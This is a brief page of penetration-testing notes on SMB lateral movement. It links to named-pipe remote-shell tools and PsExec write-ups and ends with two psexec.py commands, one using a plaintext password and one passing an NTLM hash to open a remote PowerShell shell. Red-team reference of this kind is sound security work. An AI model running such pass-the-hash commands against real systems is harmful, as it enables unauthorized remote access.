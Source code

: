 ```yaml
---
description: Server Message Block
---
```


# SMB




## Named Pipes

- [https://github.com/malcomvetter/CSExec](https://github.com/malcomvetter/CSExec)
- [https://v1k1ngfr.github.io/fuegoshell/](https://v1k1ngfr.github.io/fuegoshell/)
- [https://github.com/v1k1ngfr/fuegoshell/](https://github.com/v1k1ngfr/fuegoshell/)
- [https://github.com/trustedsec/The_Shelf/tree/main/POC/impacketremoteshell](https://github.com/trustedsec/The_Shelf/tree/main/POC/impacketremoteshell)



### PsExec

* [https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec](https://web.archive.org/web/20220517171437/https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec)
* [https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm](https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm)


#### psexec.py

```
$ psexec.py snovvcrash:'Passw0rd!'@192.168.11.1
$ rlwrap -cAr psexec.py -hashes :fc525c9683e8fe067095ba2ddc971889 megacorp.local/snovvcrash@192.168.11.1 powershell
```
